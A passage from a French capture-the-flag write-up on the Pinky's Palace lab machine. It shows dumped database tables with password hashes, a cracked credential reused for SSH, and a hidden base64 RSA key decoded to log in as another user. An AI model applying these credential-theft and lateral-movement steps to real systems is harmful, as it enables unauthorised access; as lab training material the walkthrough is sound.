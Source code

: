 Faux positif ? En énumérant les bases de données il s'est avéré que la faille était véridique. J'ai donc énuméré les tables liées à la base courante :

```
Database: pinky_sec_db
[2 tables]
+-------+
| logs  |
| users |
+-------+
```

Il y a deux hashes dans la table `users` :

```
Database: pinky_sec_db
Table: users
[2 entries]
+-----+----------------------------------+-------------+
| uid | pass                             | user        |
+-----+----------------------------------+-------------+
| 1   | f543dbfeaf238729831a321c7a68bee4 | pinky       |
| 2   | d60dffed7cc0d87e1f4a11aa06ca73af | pinkymanage |
+-----+----------------------------------+-------------+
```

Le second hash est indexé par _crackstation.net_. Les identifiants `pinkymanage` / `3pinkysaf33pinkysaf3` ne permettent pas la connexion sur le site web, mais sont acceptés sur SSH.

Petite remarque : on pouvait aussi trouver via énumération un fichier `logs.php` dans le même dossier web et qui affichait le User-Agent pour chaque tentative de connexion. Cela servait d'indice pour nous mettre sur la piste de l'injection dans l'entête HTTP.

## Gimme a R, Gimme a E, Gimme a T

Dans le dossier web, je trouve deux fichiers dont un caché qui contient du base64.

```console
pinkymanage@pinkys-palace:/var/www/html/littlesecrets-main$ ls ultrasecretadminf1l35/
total 16K
drwxr-xr-x 2 root root 4.0K Feb  2  2018 .
drwxr-xr-x 3 root root 4.0K Feb  2  2018 ..
-rw-r--r-- 1 root root   99 Feb  2  2018 note.txt
-rw-r--r-- 1 root root 2.3K Feb  2  2018 .ultrasecret
```

Le fichier texte a le message suivant :

> Hmm just in case I get locked out of my server I put this rsa key here.. Nobody will find it heh..

On peut passer de `pinkymanage` à `pinky` via cette clé SSH :

```console
pinkymanage@pinkys-palace:/var/www/html/littlesecrets-main/ultrasecretadminf1l35$ cat .ultrasecret | base64 -d > ~/ssh.key
pinkymanage@pinkys-palace:/var/www/html/littlesecrets-main/ultrasecretadminf1l35$ chmod 600 ~/ssh.key
pinkymanage@pinkys-palace:/var/www/html/littlesecrets-main/ultrasecretadminf1l35$ ssh -p 64666 -i ~/ssh.key pinky@127.0.0.1
Linux pinkys-palace 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Feb  2 05:54:01 2018 from 172.19.19.2
```